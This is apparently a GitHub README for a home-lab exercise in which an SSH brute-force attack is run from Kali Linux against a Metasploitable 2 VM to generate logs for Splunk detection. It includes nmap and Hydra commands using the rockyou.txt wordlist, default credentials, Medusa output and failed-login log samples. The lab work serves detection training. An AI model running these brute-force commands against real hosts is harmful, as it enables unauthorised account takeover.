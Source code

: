 # 🔓 SSH Brute-Force Attack Scenario

This scenario simulates a brute-force SSH attack from Kali Linux against a vulnerable Metasploitable 2 target. It's used to generate logs, test Splunk detection, and understand attack behavior.

## 🎯 Target
- IP: `192.168.x.x` (Metasploitable VM)
- Service: OpenSSH
- Port: 22
- Default creds: `msfadmin:msfadmin`

## 🛠️ Tools Used
- `hydra`
- `nmap`
- `wireshark` or `tcpdump` (optional)

## 🔍 Steps
1. Confirm SSH is open:
   ```bash
   nmap -p 22 192.168.x.x
   ```

2. Launch brute-force attack with Hydra:
   ```bash
   hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.x.x
   ```

3. Monitor logs or traffic with:
   ```bash
   wireshark
   ```

## 📝 Notes
- Successful brute-force attempt should be visible in:
  - Splunk SSH logs
  - Wireshark TCP streams
  - Metasploitable's `/var/log/auth.log` (if accessible)

## 🧠 Learning Points
- Observe timing, connection attempts, and delays
- Analyze how brute-force behavior appears in logs
- Use data for detection rules or alerts in Splunk
  
---

## 📸 Brute-Force Output & Logs

### ✅ Medusa Output

```
ACCOUNT CHECK: [ssh] Host: 192.168.68.59 (1 of 1, 0 complete)
Password: kenken (2297 of 14344391 complete)
Password: skyblue (2305 of 14344391 complete)
...
```

*Medusa cycling through passwords from rockyou.txt*

### 🔒 Metasploitable Log Sample

```
sshd[5960]: Failed password for msfadmin from 192.168.68.58 port 38605 ssh2
sshd[5961]: Failed password for msfadmin from 192.168.68.58 port 38612 ssh2
sshd[5962]: Failed password for msfadmin from 192.168.68.58 port 38618 ssh2
```

*Metasploitable showing failed SSH login attempts from Kali*

---

### 🖼️ Screenshot

![Brute-force demo](../screenshots/medusa-ssh-brute.png)

*A full view of Kali attacking while Metasploitable logs real-time SSH failures*
